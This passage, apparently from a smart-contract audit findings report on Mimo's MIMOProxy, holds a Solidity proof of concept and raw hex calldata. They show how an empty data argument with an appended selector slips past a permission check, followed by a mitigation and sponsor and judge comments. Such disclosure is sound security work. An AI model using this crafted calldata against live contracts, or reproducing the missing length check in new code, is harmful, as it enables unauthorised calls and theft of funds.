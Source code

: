       function minGasReserve() external view returns (uint256);

      function execute(address target, bytes calldata data) external payable returns (bytes memory response);

      function setPermission(
        address envoy,
        address target,
        bytes4 selector,
        bool permission
      ) external;

      function transferOwnership(address newOwner) external;

      function multicall(address[] calldata targets, bytes[] calldata data) external returns (bytes[] memory);
    }

    contract PoC {
        bytes4 public signatureWithPermision = bytes4(0xffffffff);

        // Call this function with calldata that can be prepared in `getAttackerCalldata`
        function execute(address target, bytes calldata data) external {
            bytes4 selector;
            assembly {
                selector := calldataload(data.offset)
            }

            require(selector == signatureWithPermision);

            require(data.length == 0);
        }

        // Function that prepare attacker calldata
        function getAttackerCalldata() public view returns(bytes memory)  {
            bytes memory usualCalldata = abi.encodeWithSelector(IMIMOProxy.execute.selector, msg.sender, new bytes(0));
            return abi.encodePacked(usualCalldata, bytes32(signatureWithPermision));
        }
    }

### Recommended Mitigation Steps

Add `require(data.length >= 4);`.

**[RayXpub (Mimo) commented](https://github.com/code-423n4/2022-08-mimo-findings/issues/159#issuecomment-1210479234):**
 > We were not able to recreate the provided POC. The explanation is also incomplete - we don't see how an attacker could bypass the permissions check through providing extra calldata in a signature. Please provide more details, or a working POC, on how the extra data can bypass the permissions check.

**[gzeoneth (judge) commented](https://github.com/code-423n4/2022-08-mimo-findings/issues/159#issuecomment-1221562576):**
 > This POC looks valid to me.
> 
> Basically what the warden mean is if you construct the calldata like execute(some_addr, "") + 0xffffff
> ```
> 0x1cff79cd0000000000000000000000005b38da6a701c568545dcfcb03fcb875f56beddc400000000000000000000000000000000000000000000000000000000000000400000000000000000000000000000000000000000000000000000000000000000^ffffffff
> ```
> `data.offset` would be at ^<br>
> and `calldataload(data.offset)` would read 0xffffff
> 
